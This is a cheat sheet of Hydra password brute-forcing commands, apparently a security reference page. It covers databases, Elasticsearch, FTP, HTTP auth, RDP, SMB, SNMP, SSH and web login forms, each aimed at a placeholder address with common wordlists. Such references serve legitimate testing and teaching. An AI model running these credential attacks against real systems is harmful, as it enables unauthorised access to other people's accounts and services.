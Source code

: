 ```yaml
---
title: Hydra
desc: Cracks username and password in web form, SSH, FTP.
tags: [BruteForce, Cryptography, Database, Elasticsearch, FTP, Linux, Password, RDP, SMB, SNMP, SSH, Web]
alts: [CrackStation, Hashcat, JohnTheRipper, Wfuzz]
website:
render_with_liquid: false
---
```


## Databases

```sh
# MySQL
hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.0.0.1 mysql

# PostgreSQL
hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.0.0.1 postgres
```

<br />

## Elasticsearch

```sh
hydra -L /usr/share/brutex/wordlists/simple-users.txt -P /usr/share/brutex/wordlists/password.lst 10.0.0.1 -s 9200 http-get /
```

<br />

## FTP

```sh
# Crack password
hydra -l username -P passwords.txt ftp://10.0.0.1
```

<br />

## HTTP GET request (Authorization, WWW-Authenticate)

```sh
# Crack username and password
hydra -L /usr/share/seclists/Usernames/Names/names.txt -P /usr/share/seclists/Passwords/darkc0de.txt 10.0.0.1 http-get
```

<br />

## RDP (Remote Desktoop Protocol)

```sh
hydra -l username -P /usr/share/wordlists/rockyou.txt 10.0.0.1 rdp
```

<br />

## SMB

```sh
# Crack username
hydra -v -L /usr/share/seclists/Usernames/Names/names.txt -p password 10.0.0.1 smb

# Crack password
hydra -v -l username -P /usr/share/seclists/Passwords/darkc0de.txt 10.0.0.1 smb
```

<br />

## SNMP (Simple Network Management Protocol)

```sh
# Brute Force Community
hydra -P /usr/share/seclists/Discovery/SNMP/common-snmp-community-strings.txt 10.0.0.1 snmp
```

<br />

## SSH

```sh
# Crack username
hydra -v -L /usr/share/seclists/Usernames/Names/names.txt -p password 10.0.0.1 ssh

# Crack password
hydra -v -l username -P /usr/share/seclists/Passwords/darkc0de.txt 10.0.0.1 ssh

# Specify port
hydra -l username -P /usr/share/wordlists/rockyou.txt -s 2222 10.0.0.1 ssh
hydra -l username -P /usr/share/wordlists/rockyou.txt ssh://10.0.0.1:2222
```

<br />

## Web form

```sh
# Crack username
hydra -L /usr/share/seclists/Usernames/Names/names.txt -p secret 10.0.0.1 http-post-form "/login:username=^USER^&password=^PASS^:F=incorrect"

# Crack password
hydra -l username -P /usr/share/wordlists/rockyou.txt 10.0.0.1 http-post-form "/login:username=^USER^&password=^PASS^:F=incorrect"
```
